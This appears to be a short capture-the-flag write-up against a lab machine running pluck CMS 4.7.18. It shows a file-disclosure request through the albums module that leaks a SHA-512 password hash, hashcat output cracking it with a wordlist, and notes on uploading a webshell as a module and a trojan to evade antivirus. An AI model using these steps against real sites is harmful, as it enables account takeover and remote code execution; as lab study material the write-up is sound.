 ## Web in

pluck 4.7.18 © 2005-2024

https://github.com/pluck-cms/pluck/issues/122

```url
http://10.129.250.65/data/settings/modules/albums/
```

```php
// /data/modules/albums/albums_getimage.php?image=admin_backup.php
<?php
$ww = 'c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e';
?>146
```

## Password

```
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1700 (SHA2-512)
Hash.Target......: c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29f...5ce81e
Time.Started.....: Sun Mar 31 16:53:49 2024 (0 secs)
Time.Estimated...: Sun Mar 31 16:53:49 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/Users/esonhugh/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 14432.7 kH/s (7.44ms) @ Accel:256 Loops:1 Thr:64 Vec:1
Recovered.Total..: 1/1 (100.00%) Digests
Progress.........: 1048576/14344385 (7.31%)
Rejected.........: 0/1048576 (0.00%)
Restore.Point....: 786432/14344385 (5.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: sonirustiani -> Leslee
Hardware.Mon.SMC.: Fan0: 0%, Fan1: 0%
Hardware.Mon.#1..: Util: 46%

Started: Sun Mar 31 16:53:32 2024
Stopped: Sun Mar 31 16:53:50 2024

c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e:lexypoo97
```

## User svc_web

upload [[webshell.zip]] as install modules in backend will get a webshell

upload [[trojan.exe]] to C:\xmapp\htdocs\ will evade the AV

shell to [[svc_web]]


